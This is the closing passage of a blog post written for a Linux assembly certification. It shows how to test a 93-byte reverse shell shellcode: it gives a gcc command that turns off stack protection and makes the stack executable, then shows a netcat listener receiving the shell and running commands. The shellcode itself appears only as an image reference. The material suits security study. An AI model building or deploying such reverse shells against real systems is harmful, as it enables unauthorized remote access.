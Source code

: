 Assuming this code is placed in a file named `test_shellcode.c`, it can be compiled by running: `gcc -m32 -fno-stack-protector -z execstack test_shellcode.c -o test`.

To test the shellcode, create a netcat listener again, this time on port 65520 and run the `test` executable. It should show the length of the shellcode, which will be 93 bytes and result in a valid shell being sent to the netcat listener once again:

```shell_session
$ ./test
Shellcode length: 93
```

```shell_session
$ nc -vlp 65520
Listening on [0.0.0.0] (family 0, port 65520)
Connection from rastating-PC 40956 received!
pwd
/home/rastating/Code/slae/utilities
netstat -an | grep "65520"
tcp        0      0 0.0.0.0:65520           0.0.0.0:*               LISTEN     
tcp        0     27 10.2.0.1:65520          10.2.0.1:40956          ESTABLISHED
tcp        0      0 10.2.0.1:40956          10.2.0.1:65520          ESTABLISHED
```

References
----------
* [https://en.wikipedia.org/wiki/Berkeley_sockets](https://en.wikipedia.org/wiki/Berkeley_sockets)
* [https://linux.die.net/man/7/ip](https://linux.die.net/man/7/ip)
* [https://linux.die.net/man/2/socket](https://linux.die.net/man/2/socket)
* [https://linux.die.net/man/2/connect](https://linux.die.net/man/2/connect)
* [https://linux.die.net/man/3/htons](https://linux.die.net/man/3/htons)

<hr />

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/).

Student ID: SLAE-1340

All source files can be found on GitHub at [https://github.com/rastating/slae](https://github.com/rastating/slae)
